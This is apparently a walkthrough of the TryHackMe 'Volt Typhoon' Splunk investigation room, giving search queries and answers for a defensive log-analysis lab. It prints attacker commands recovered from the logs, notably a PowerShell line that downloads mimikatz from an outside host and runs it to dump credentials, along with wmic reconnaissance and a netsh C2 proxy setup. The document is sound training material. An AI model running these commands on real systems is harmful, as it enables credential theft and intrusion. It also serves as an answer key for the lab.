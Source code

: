 Volt Typhoon — Splunk Analysis:-
Scenario: The SOC has detected suspicious activity indicative of an advanced persistent threat (APT) group known as Volt Typhoon, notorious for targeting high-value organizations. Assume the role of a security analyst and investigate the intrusion by retracing the attacker’s steps.

You have been provided with various log types from a two-week time frame during which the suspected attack occurred. Your ability to research the suspected APT and understand how they maneuver through targeted networks will prove to be just as important as your Splunk skills.

IR Scenario:-

open the give url in the tryhackme ( no need to login) and click the search tab in the left side and select Timestamp to All time!!!


search by index =”*” ( change the quotes according to your’s)

Here you can see all the logs in the system

INITIAL ACCESS:-
So here i job is to find the timestamp where the attacker changed Dean’s paasword and compromised his account
use index=”*” sourcetype=adss username=”dean-admin”


you can find that at 11:10:22 3/24/24 the Password change has occured!!!

Answer:- 2024–03–24T11:10:22

2. Shortly after Dean’s account was compromised, the attacker created a new administrator account. What is the name of the new account that was created?

Here shortly after term is our hint!!!


click the time stamp of the Password change and set to the above configs
+2 hours and click apply( its your wish to change the timestamp for your convinence)

change the search to index=”*” sourcetype!=adss to see the full logs including wmic and powershell


Answer:- voltyp-admin

3.EXECUTION:-
In an information gathering attempt, what command does the attacker run to find information about local drives on server01 & server02?
This one is pretty much challenging but solvable!
expand the timeframe to 3/26/24 00:00:00.000


change the search to index=”*” sourcetype!=adss username=”dean-admin”


we got the command easily

Answer:- wmic /node:server01, server02 logicaldisk get caption, filesystem, freespace, size, volumename

2. The attacker uses ntdsutil to create a copy of the AD database. After moving the file to a web server, the attacker compresses the database. What password does the attacker set on the archive?


Answer:- d5ag0nm@5t3r

PERSISTENCE:-
To establish persistence on the compromised server, the attacker created a web shell using base64 encoded text. In which directory was the web shell placed?
I looked at Mitre https://attack.mitre.org/groups/G1017/ and found that this group uses certutil for base64 encoding. So, let’s search by certutil keyword:


Attacker is creating the webshell in \Temp folder

Answer:- C:\Windows\Temp\

DEFENSE EVASION:-
In an attempt to begin covering their tracks, the attackers remove evidence of the compromise. They first start by wiping RDP records. What PowerShell cmdlet does the attacker use to remove the “Most Recently Used” record?
index=”*” sourcetype!=adss sourcetype=powershell “userid=ctrl-acc\\dean-admin”| top limit=50 CommandLine

use this search and i found Remove-itemProperty would likely we the answer


ANSWER:- Remove-ItemProperty

By using Remove-ItemProperty as a search i found $registryPath


So i confirmed with it

2.The APT continues to cover their tracks by renaming and changing the extension of the previously created archive. What is the file name (with extension) created by the attackers?


search for index=”*” sourcetype!=adss “cisco-up.7z”

ANSWER:- cl64.gif

3.Under what regedit path does the attacker check for evidence of a virtualized environment?

I searched for the common hives

HKEY_LOCAL_MACHINE

HKEY_CURRENT_USER


Broke the chain!!!

ANSWER:- HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control

CREDENTIAL ACCESS:-
Using reg query, Volt Typhoon hunts for opportunities to find useful credentials. What three pieces of software do they investigate?
Answer Format: Alphabetical order separated by a comma and space.
The answer is given in question itself reg query search by it


ANSWER:- OpenSSH, putty, realvnc

2.What is the full decoded command the attacker uses to download and run mimikatz?

If you search by ‘mimikatz.exe’ you won’t find anything. So, first thing I though was: maybe it’s in base64. I tried to search for ‘==’ terminators of some base64 but i had no luck.

I had to go back to some known log and moving forward through all the logs until I found this:

search by index=”*” sourcetype!=adss UserId=”CTRL-ACC\\dean-admin”


by decoding the base64 i got


ANSWER:- Invoke-WebRequest -Uri “http://voltyp.com/3/tlz/mimikatz.exe" -OutFile “C:\Temp\db2\mimikatz.exe”; Start-Process -FilePath “C:\Temp\db2\mimikatz.exe” -ArgumentList @(“sekurlsa::minidump lsass.dmp”, “exit”) -NoNewWindow -Wait

DISCOVERY:-
Everything hereafter will be simple and easy!!!

The attacker uses wevtutil, a log retrieval tool, to enumerate Windows logs. What event IDs does the attacker search for?

hust add wevtutil to the seatch an you can find the eventids

ANSWER:- 4624 4625 4769

2. Moving laterally to server-02, the attacker copies over the original web shell. What is the name of the new web shell that was created?

On previous questions, we found a web shell on ntuser.ini file. Search by this keyword and change timeframe to Alltime


now remove ntuser.ini and replace with iiistart.aspx


ANSWER:- AuditReport.jspx

COLLECTION:-
The attacker is able to locate some valuable financial information during the collection phase. What three files does Volt Typhoon make copies of using PowerShell?
Just search by Copy-Item, because it’s a command that attacker is using

index=”*” sourcetype!=adss copy-item


ANSWER:- 2022.csv 2023.csv 2024.csv

C2& Cleanup :-
The attacker uses netsh to create a proxy for C2 communications. What connect address and port does the attacker use when setting up the proxy?
just remove the copy-item and use netsh inplace of it


ANSWER:- 10.2.30.1 8443

2. To conceal their activities, what are the four types of event logs the attacker clears on the compromised system?

just remove netsh and search by system


Answer:- Application Security Setup System

So, That all folks!!!
This room is super easy for splunk analysis learning and skills to enhance in splunk and logs

Hope you guys learned something new!

See you in next episode of TryHackMe CTFs series untill then bye!!!

